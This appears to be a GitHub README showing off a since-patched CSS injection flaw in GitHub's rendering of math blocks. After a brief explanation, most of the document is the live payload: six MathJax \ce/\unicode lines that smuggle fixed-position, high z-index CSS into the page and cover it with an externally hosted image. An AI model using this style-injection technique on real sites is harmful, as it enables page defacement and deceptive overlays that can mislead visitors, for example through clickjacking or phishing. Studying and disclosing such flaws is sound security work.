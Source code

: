 
# GITHUB CSS VULN TEST >_<
![image](https://github.com/tr4xnz/css-vuln/assets/171883047/f068a0ae-8df2-4bbf-9fee-ec912725a884)
The Github CSS Vuln, a vulnerability where README.md macros were exploited to edit the CSS on one's repository's page, and it'll be stored on the server.
This vulnerability's discovery was very surprising as Github is like a huge platform where major companies and developers share their projects and ideas.
Luckily the vulnerability was patched.
![image](https://github.com/tr4xnz/css-vuln/assets/171883047/788805fd-a1b9-4db0-a9ee-5fe30fc1ca69)

```diff
Hello i am tr4xnz
```

```math
\ce{$\unicode[goombafont; color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; background-repeat: no-repeat; height: 300px; object-fit: cover; width: 300px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 5vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; top: 12vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 0; top: 4vh; background-repeat: no-repeat; height: 252px; object-fit: cover; width: 340px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 2vh; bottom: 0; background-repeat: no-repeat; height: 249px; object-fit: cover; width: 213px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}


```
